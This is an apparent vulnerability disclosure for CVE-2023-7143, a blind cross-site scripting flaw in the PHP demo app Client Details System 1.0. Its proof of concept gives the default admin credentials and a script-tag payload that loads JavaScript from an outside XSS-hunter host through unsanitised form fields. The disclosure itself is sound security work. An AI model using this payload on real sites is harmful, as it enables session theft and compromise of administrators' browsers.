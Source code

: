 # CVE-2023-7143_Client_Details_System-Blind_Cross_Site_Scripting
+ **Exploit Title:** CVE-2023-7143_Client_Details_System-Blind_Cross_Site_Scripting
+ **Date:** 2023-26-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/client-details-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/CLIENT_DETAILS_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-2023-7143

## References: 
+ **CVE-2023-7143:** https://vuldb.com/?id.249146
+ https://www.cve.org/CVERecord?id=CVE-2023-7143
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-7143

## Description:
Client_Details_System 1.0 allows Blind Cross-Site Scripting via parameters 'fname', 'lname', 'email' and 'contact' in "/clientdetails/admin/regester.php". Client_Details_System is vulnerable to a blind cross-site scripting vulnerability because it fails to sufficiently sanitize user-supplied data.
An attacker may leverage this issue to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. This may allow the attacker to steal cookie-based authentication credentials and launch other attacks.

## Proof of Concept:
+ Go to the Admin Panel: "http://localhost/clientdetails/admin/"
+ Login with `admin`:`client123`
+ Go to Create Users: "http://localhost/clientdetails/admin/regester.php"
+ Then go to the xsshunter app on https://xsshunter.trufflesecurity.com and login.
+ XSS PAYLOADS -> Copy Payload "Basic <script> Tag Payload"
+ Fill the form parameters 'fname', 'lname', 'email' and 'contact' with the payload `"><script src="https://js.rip/b23tmbxf49"></script>`
+ Save and then go to XSS PAYLOAD FIRES on the xsshunter.
+ Check Reports.

![7-1](https://github.com/h4md153v63n/CVEs/assets/5091265/51ded0aa-4808-4b61-896e-e8e99a315a73)
<br>
<br>
![7-2](https://github.com/h4md153v63n/CVEs/assets/5091265/51f60b4d-0fe7-478c-884c-f16060b25fea)
<br>
<br>
![7-3](https://github.com/h4md153v63n/CVEs/assets/5091265/f195eb57-e2c2-4d70-b81f-ba46819c6ab4)
<br>
<br>
![7-4](https://github.com/h4md153v63n/CVEs/assets/5091265/588bd279-e6dd-4350-a2ce-5bb4f8097be4)
<br>
<br>
![7-5](https://github.com/h4md153v63n/CVEs/assets/5091265/1460887d-799b-4999-8f0f-3433393fe77b)
<br>
<br>
![7-6](https://github.com/h4md153v63n/CVEs/assets/5091265/ff4effde-880b-49bc-8aba-b8cc3885b0f6)
